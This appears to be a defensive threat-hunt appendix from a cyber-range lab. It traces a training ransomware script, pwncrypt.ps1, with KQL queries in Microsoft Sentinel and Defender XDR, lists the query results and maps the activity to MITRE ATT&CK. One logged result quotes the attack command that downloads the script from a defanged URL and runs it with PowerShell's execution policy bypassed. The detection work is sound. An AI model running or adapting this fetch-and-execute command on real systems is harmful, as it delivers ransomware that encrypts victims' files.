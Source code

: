 # Project: PwnCrypt Ransomware Project Appendix

#### Summary:
This threat hunt was performed in Microsoft Azure and Defender XDR for End-Point. Below you'll see tables used with Sentinel (SIEM), KQL commands, and MITRE ATT&CK® Framework Mapping.

#### Raw event tables used:

| Table Name           | Official Documentation                                                                   |
| :------------------- | :--------------------------------------------------------------------------------------- |
| `DeviceNetworkEvents`| [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/devicenetworkevents)|
| `DeviceProcessEvents`| [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/deviceprocessevents)|
| `DeviceEvents`       | [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/deviceevents)|
| `DeviceFileEvents`   | [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/devicefileevents)|

#### KQL Appendix:

#### 1. Tracing PowerShell-Initiated `pwncrypt.ps1` Download Connection

```kql
let target_device = "arcwin10";
DeviceNetworkEvents
| where DeviceName == target_device and Timestamp == datetime(2025-05-10T19:01:44.3886333Z)
| project Timestamp, ActionType, InitiatingProcessCommandLine, RemoteUrl, InitiatingProcessAccountName, InitiatingProcessFileSize
| where isnotempty( RemoteUrl)
```

**Query Result:**
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| ActionType                  | ConnectionSuccess                                                  |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| RemoteUrl                   | hxxps://raw[.]githubusercontent[.]com                            |
| InitiatingProcessAccountName| arcanalyst1                                                      |
| InitiatingProcessFileSize   | 455680                                                           |

--- 

#### 2. Confirming `pwncrypt.ps1` Script Execution on `arcwin10`


```kql
let target_device = "arcwin10";
let start_time = datetime(2025-05-10 18:50:00Z); //May 10, 2025 1:50:00 PM CDT
let end_time = datetime(2025-05-10 19:21:00Z); //May 10, 2025 2:21:00 PM CDT
DeviceProcessEvents
| where DeviceName == target_device
| where Timestamp between (start_time .. end_time )
| project Timestamp,AccountName, InitiatingProcessFileName, InitiatingProcessCommandLine, ProcessCommandLine, FileName, FileSize, AdditionalFields
| where InitiatingProcessFileName contains "powershell" and AccountName == "arcanalyst1"
| sort by Timestamp desc
```

**Query Result:**
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| AccountName                 | arcanalyst1                                                      |
| InitiatingProcessFileName   | powershell.exe                                                   |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| ProcessCommandLine          | "cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1 |
| FileName                    | cmd.exe                                                          |
| FileSize                    | 289792                                                           |
| AdditionalFields            | {"DesktopName":"Winsta0\\Default"}                               |

--- 

#### 3. Verifying Full PowerShell Command Execution via DeviceEvents


```kql
let target_device = "arcwin10";
let start_time = datetime(2025-05-10 18:50:00Z); //May 10, 2025 1:50:00 PM CDT
let end_time = datetime(2025-05-10 19:21:00Z); //May 10, 2025 2:21:00 PM CDT
DeviceEvents
| where DeviceName == target_device
| where Timestamp between (start_time .. end_time )
| project Timestamp, ActionType, InitiatingProcessSHA1, InitiatingProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessParentFileName, AdditionalFields
| where ActionType contains "PowerShellCommand"
| sort by Timestamp asc
```

**Query Result:**
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| ActionType                  | PowerShellCommand                                                |
| InitiatingProcessSHA1       | 801262e122d6a2e758962896260d55bbd0136a                           |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| InitiatingProcessAccountName| arcanalyst1                                                      |
| InitiatingProcessParentFileName| explorer.exe                                                    |
| AdditionalFields            | {"Command":"Invoke-WebRequest -Uri 'hxxps://raw[.]githubusercontent[.]com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt[.]ps1' -OutFile 'C:\\programdata\\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\\programdata\\pwncrypt.ps1"} |

--- 
#### 4. Tracing `pwncrypt.ps1` Ransomware File Renaming Activity

```kql
let target_device = "arcwin10";
DeviceFileEvents
| where DeviceName == target_device
| where ActionType == "FileRenamed" and FolderPath contains "pwncrypt"
| project Timestamp, ActionType, FileName, PreviousFolderPath, InitiatingProcessAccountName, InitiatingProcessFileName
| sort by Timestamp asc
```

**Query Result:**
| Timestamp           | ActionType  | FileName                                   | PreviousFolderPath               | InitiatingProcessAccountName | InitiatingProcessFileName |
| :------------------ | :---------- | :----------------------------------------- | :------------------------------- | :--------------------------- | :------------------------ |
| May 10, 2025 2:01:45 PM | FileRenamed | 3546_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 2:01:45 PM | FileRenamed | 6267_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 2:01:45 PM | FileRenamed | 6705_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 4362_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 9982_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 4489_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 8270_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 1130_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 4935_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 6642_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 8762_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 8357_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |

--- 
### MITRE ATT&CK Framework

* **Command and Control** (`TA0011`):
    * **Payload Delivery:** `pwncrypt.ps1` was downloaded from an external GitHub URL using PowerShell's `Invoke-WebRequest` (aligns with `T1105` - Ingress Tool Transfer, leveraging `T1071.001` - Application Layer Protocol: Web Protocols).

* **Execution** (`TA0002`):
    * **PowerShell Scripting:** The core malware `pwncrypt.ps1` was executed via `powershell.exe` (`T1059.001` - Command and Scripting Interpreter: PowerShell).
    * **Command Shell Invocation:** `cmd.exe` was used to launch the PowerShell process that ran `pwncrypt.ps1` (`T1059.003` - Command and Scripting Interpreter: Windows Command Shell).

* **Defense Evasion** (`TA0005`):
    * **Execution Policy Bypass:** The script was run with `powershell.exe -ExecutionPolicy Bypass` to circumvent script execution restrictions (a common aspect of abusing `T1059.001` - PowerShell for defense evasion).

* **Privilege Escalation** (`TA0004`):
    * **Indicated Capability:** Later file encryption activity was observed under the `SYSTEM` account, and VirusTotal associated this tactic with the malware's hash, suggesting `pwncrypt.ps1` has or attempts privilege escalation. (The specific technique used by `pwncrypt.ps1` for this wasn't detailed in the provided logs).

* **Discovery** (`TA0007`):
    * **File & Directory Discovery:** The script enumerated user files and directories to identify targets for encryption (aligns with `T1083` - File and Directory Discovery).

* **Impact** (`TA0040`):
    * **Data Encrypted for Impact:** Files were encrypted, renamed (e.g., with `_pwncrypt.csv` suffix), and ransom/decryption instructions were generated (`T1486`).
 
    * ## Created By:
- **Author Name**: [Jorge Juarez](https://www.linkedin.com/in/jorgejuarez1/)
- **PowerShell script creator**: [Josh Madakor](https://joshmadakor.tech/)
- **Author Contact**: https://www.linkedin.com/in/jorgejuarez1/
- **Date**: May 10, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `July 12, 2025`  | `Jorge Juarez`   

